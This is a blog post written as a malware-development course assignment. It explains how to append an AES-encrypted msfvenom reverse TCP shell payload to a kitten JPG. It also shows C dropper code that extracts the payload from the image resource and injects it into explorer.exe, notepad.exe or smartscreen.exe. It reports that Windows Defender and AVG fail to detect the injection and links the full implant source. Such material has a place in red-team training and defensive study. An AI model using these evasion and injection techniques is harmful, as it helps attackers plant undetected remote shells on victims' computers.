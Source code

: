```yaml
---
layout: single
title: AV Evasion - The payload is behind kitties
date: 2020-09-22
classes: wide
header:
  teaser: /assets/images/AV_evasion/kittens.jpg
tags:
  - Pentester
  - Windows
  - Reverse shell
  - AV Evasion
  - Kitties
--- 
```

![](/assets/images/AV_evasion/kittens.jpg)<br>

## Introduction
Hello and welcome back to the 2nd assignment of the well done course on Malware Development by [Sektor7](https://institute.sektor7.net/red-team-operator-malware-development-essentials), in the previous [blog post](https://blackcloud.me/av-evasion-1/) we saw PE injection using a payload saved as a favicon.ico file, with all the functions and payload encrypted with AES. The next assignment is to hide the payload inside an image and implement the dropper with the capacity of extraction of the payload and injecting it in the PE process target.

## The Assignment
Let's start taking our last dropper and check what we have and what we must change.<br>
The most of the code is working pretty well as we saw, but the payload extraction has to be changed because now reenz0h asked to hide the payload inside an image and extract it before injecting in the victim process, so take a look closer to the payload memory loading and analyze what we have to change.

## The Payload
First of all we need to choose how hide our payload behind an image and most important how we want to extract it before using it. <br>
The hint in the assignemt page sais we can use file concatenation. So we choosed this way to work (a big thank you to reenz0h for the help):
- Take a kitties image from internet (who doesn't love kitties? :))
- Create the payload with msfvenom
    - in this case I choosed a simple reverse tcp windows x64 shell
- Encrypt the payload with AES
- Append the encrypted payload at the end of the image 
- Append the original lenght of image as last bytes in the image

Once we downloaded the kitties image from internet we can check last 11 rows of the hexadecimal values of the image with ```xxd```
```bash
xxd -g1 U.jpg |  tail -11 
00330990: 81 f1 c0 8a b8 e5 e3 18 00 0e 13 62 25 25 3c 4d  ...........b%%<M
003309a0: f6 02 dc e7 98 fc 6f f6 62 59 5f c2 31 93 3c e2  ......o.bY_.1.<.
003309b0: 85 80 12 07 53 ba 85 c9 20 fe 97 e3 7c 0d c0 03  ....S... ...|...
003309c0: 96 d0 65 4f 89 a7 aa 78 21 2a 0a 58 29 2a b1 1a  ..eO...x!*.X)*..
003309d0: 6f 73 6c 08 53 2d e1 95 45 55 3c d3 4a 9f 09 0b  osl.S-..EU<.J...
003309e0: 1a 46 a3 cc 08 bf 37 bb 17 14 98 c8 38 9e eb 48  .F....7.....8..H
003309f0: 6a 94 92 4e a5 ac 8e 53 74 82 6d f6 fc 7c b0 51  j..N...St.m..|.Q
00330a00: 44 77 c8 1a 70 d2 57 c8 90 db 7a b4 bc 06 d6 e6  Dw..p.W...z.....
00330a10: 4a f5 95 03 ea ed 6e 1f 8e 08 a9 8f 2f 24 b6 f3  J.....n...../$..
00330a20: 7a 65 63 ae a5 cb ea 59 17 d1 60 b4 f3 a9 44 6e  zec....Y..`...Dn
00330a30: 3a e2 56 ce 6c e3 76 41 16 d0 cf ff d9           :.V.l.vA.....
```
Now after the encryption of the payload we can use a copy of the original image (is usefull to work on a copy just in case something doesn't work as exepected, you don't have to download the image everytime) and append the encrypted paylaod to the image with the ```cat``` command

```bash
cat payload_enc >> kittens.jpg
```
Now check the tail of the image compared with the encrypted payload to see if everithing is loaded correctly
![](/assets/images/AV_evasion/hex_compare.png)
As we can see after the hex values ``ff d9`` (that's in the end of every jpg file) we have our encrypted payload. <br>
After that we have to append the value of the size of the original image, in this case 3344957 bytes 

```bash
echo "3344957" >> kittens.jpg
```
Check again the last hex values of the manipulated jpg
![](/assets/images/AV_evasion/hex_compare2.png)<br>
Great! our devil jpg is ready. Now we have to modify our dropper to extract the payload from the image in our victim machine 

## The Dropper
Let's change the name of the payload as a recource by the file ```resources.rc``` to ```kittens.jpg```
```c
#include "resources.h"

IMAGE RCDATA kittens.jpg
```
The dropper has a section where the payload is loaded as a resource with the ```FindResourceA``` and ```LoadResource``` functions, its lenght is calculated with ```SizeofResource``` then it is loaded in memory with the ```VirtualAlloc``` function

```c
...
// Extract payload from resources section
    res = pFindResourceA(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
    resHandle = pLoadResource(NULL, res);
    payload = (char *) pLockResource(resHandle);
    payload_len = pSizeofResource(NULL, res);

// Allocate some memory buffer for payload
    exec_mem = pVirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
...
```
In the code trunk below the Windows functions are called as pointers because of AES encryption as saw in the previous post, this techniques works very well as an AV evasion technique so we can reuse it. Now we have to change this section like this

```c
// Load resources section
    res = pFindResourceA(NULL, MAKEINTRESOURCE(IMAGE), RT_RCDATA);
    resHandle = pLoadResource(NULL, res);

// Extract payload from the image
    image = (char*)pLockResource(resHandle); // lock the resource and point to the first char of the jpg
    image_len = SizeofResource(NULL, res); // get the size of the jpg + payload + last 7 bytes 
    
    end = image + image_len - 7; // jump to the end of the jpg and read the last 7 bytes that are the original size of the jpg without payload
    size = atoi(end); // cast from char to int, now size is the original size of the jpg
    offset = image + size; // offset points to the first char of the p0
    payload_len = image_len - size - 7; // calculate the payload size
    memcpy(payload, offset, payload_len); // copy in another memory area the effective payload 
    
// Allocate some memory buffer for payload
    exec_mem = pVirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```
Long story short, instead of charging the payload from a separated file we need to:
- get the size of the devil image, 
- jump at the end of the devil image and read the last 7 bytes that are the size of the orginal image
- now we can calculate the offset from the original image and the devil image, this difference is the payload
- now we need to calculate the payload lenght
- use memcpy to load the payload in memory and use it as a resource

## Tests
As in the previous post we tested the dropper on different process: ```explorer.exe```, ```notepad.exe``` and ```smartscreen.exe``` but in this case all the 3 processes inject doesn't trigger Windows Defender nor AVG Free, however the ```explorer.exe``` injecton causes a reload of the process in the case you exit the shell on the attacking machine and this is very loud. On the other hand nothing appens when we try to inject the ```notepad.exe```, AVG scan the dropper and let it execute the reverse shell payload maintaining the shell active also when we close Notepad and the ```notepad.exe``` process is destroyed, same story if we try to inject the ```smartscreen.exe``` process, another reverse shell session is opened without any alarm from AVG.
So we are following the TOON rule (Two is One and One is None) also in this case.  

![](/assets/images/AV_evasion/AVG_image_bypass.gif)<br>

and [here](https://github.com/bolonobolo/av_evasion/tree/master/PE_Injection/Behind%20image%20Dropper/implant.cpp) you can find the dropper code. <br>
In the [next post](https://blackcloud.me/sharing-is-scaring/) we'll try to complete another point of the assignment ```Build a dropper, which hosts its payload in a separate AES-encrypted file```.

## References
Malware Dev Essentials Course
- [Sektor7](https://institute.sektor7.net/red-team-operator-malware-development-essentials)
- [reenz0h](https://twitter.com/Sektor7Net) <br>
